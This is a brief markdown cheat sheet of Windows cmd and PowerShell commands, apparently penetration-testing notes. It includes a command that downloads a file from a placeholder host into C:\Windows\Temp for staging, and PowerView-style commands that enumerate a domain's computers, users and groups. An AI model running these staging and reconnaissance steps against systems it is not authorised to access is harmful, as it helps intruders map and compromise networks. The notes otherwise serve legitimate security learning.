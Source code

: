 # cmd
## List directory content
```bash
dir PATH_TO_DIRECTORY #(dir C:\)
```

## Read content of a file
```bash
type PATH_TO_FILE
```

## Launch powershell
```bash
powershell
```

## List running services
```bash
powershell -c "Get-Service"
```

## Download a file
```bash
cd C:/Windows/Temp # Frequent path to store temporary files
powershell -c "Invoke-WebRequest -Uri 'http://HOST:PORT/FILE' -OutFile 'C:\Windows\Temp\OUTPUT_FILE_NAME'"
```

# powershell
## Bunch of commands
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Download file
```bash
wget URL -OutFile out.html
wget HOST:IP/PATH_TO_FILE -OutFile out.html
```

```bash
# list running services
Get-Service

# list all operating systems on the domain
Get-NetComputer -fulldata | select operatingsystem

# list all users on the domain
Get-NetUser | select cn

# list all groups on the domain
Get-NetGroup
```
